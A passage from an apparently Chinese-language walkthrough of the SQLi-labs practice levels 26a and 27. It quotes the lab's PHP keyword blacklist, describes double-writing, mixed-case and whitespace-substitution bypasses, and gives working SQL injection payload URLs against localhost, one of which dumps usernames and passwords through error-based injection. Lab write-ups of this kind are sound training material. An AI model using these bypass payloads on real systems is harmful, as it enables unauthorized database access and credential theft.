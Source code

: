 1. 和上一关绕过方式一样，只是不能使用报错注入了
2. 需要通过括号进行闭合

### 绕过方式
**payload**
> http://127.0.0.1/sqlilabs2/Less-26a/??id=1111')union%A0select(1),(select(group_concat(id,'~',username,'~',passwoorrd))from(security.users)),3%7c%7c('1


## 第二十七关 基于GET错误-你的UNION和SELECT归我所有-字符型单引号

### 源码审计

```php
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
$id= preg_replace('/[--]/',"", $id);		//Strip out --.
$id= preg_replace('/[#]/',"", $id);			//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out select
return $id;
}
```
1. 从源码可知过滤了union和select,并非大小写忽略的那种
2. *和--也被过滤了
3. 会打印出错误信息，可以使用报错注入

### 绕过方式

* 双写绕过

> uniunionon   selecselectt

* 大小写绕过

> select ->  SeLect   union -> UNion

**payload**
> http://127.0.0.1/sqlilabs2/Less-27/?id=1'%09and%09updatexml(1,concat(0x7e,(SeleCt(group_concat(username,password))from(users)),0x7e),1)and'1

![2020-1-9-10-39-44](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-9-10-39-44)

## 第二十七a关 基于GET错误-你的UNION和SELECT归我所有-双引号
